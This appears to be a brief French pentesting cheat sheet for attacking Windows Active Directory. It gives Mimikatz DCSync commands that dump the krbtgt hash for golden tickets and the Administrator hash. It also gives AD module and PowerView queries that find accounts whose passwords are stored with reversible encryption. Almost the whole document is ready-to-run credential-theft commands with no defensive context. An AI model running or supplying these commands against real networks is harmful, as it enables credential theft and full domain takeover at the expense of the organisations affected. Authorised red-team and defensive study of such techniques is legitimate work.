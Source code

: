 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Mimikatz

```shell
# collecte du Hash de Krbtgt (pour golden ticket)
mimikatz > lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt
# collecte du hash du compte Administrateur
mimikatz > lsadump::dcsync /domain:DOMAIN /user:DOMAIN\Administrateur
```

## Identification de comptes ayant leur mot de passe stocké en clair

### Module Active Directory
```shell
# ENCRYPTED_TEXT_PWD_ALLOWED = 128 (https://learn.microsoft.com/th-TH/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties)
Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

### Powerview

```shell
. .\Powerview.ps1
 Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
```

